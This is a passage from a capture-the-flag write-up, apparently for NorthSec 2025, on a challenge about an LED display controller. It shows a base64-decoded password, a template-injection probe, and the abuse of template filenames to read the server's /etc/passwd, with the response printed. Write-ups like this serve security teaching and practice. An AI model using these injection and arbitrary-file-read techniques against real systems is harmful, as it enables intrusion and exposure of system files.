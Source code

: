 The password was encoded in base64. I decoded it.

```bash
$ echo -n Qm9uc2Vjb3VyczEyMyE= | base64 -d ; echo
Bonsecours123!
```

## Flag 2

The application allowed changing the message on the displays. I tried sending some SSTI, but my payloads appeared to be sanitized. I sent `{% raw %}{{ 7 * 7}}{% endraw %}`. The display only showed `7 * 7` without the brackets.

I left that aside and looked at the templates. The list function showed two templates I could use.

![Templates](/assets/images/2025/05/NorthSec/LedDisplayController/Templates.png "Templates")

Those were filenames. So I immediately tried to read other files from the server. 

![File Read](/assets/images/2025/05/NorthSec/LedDisplayController/FileRead.png "File Read")

The UI showed a success, and the content of the `passwd` file started appearing on the display. That was not very practical to read, so I looked at it in Caido.

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: upgrade
Sec-WebSocket-Accept: JQ+pE3D0a8m7pOa19yWbFIMtV8Q=
Date: Mon, 19 May 2025 19:01:47 GMT
Server: Python/3.12 aiohttp/3.11.18

~root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```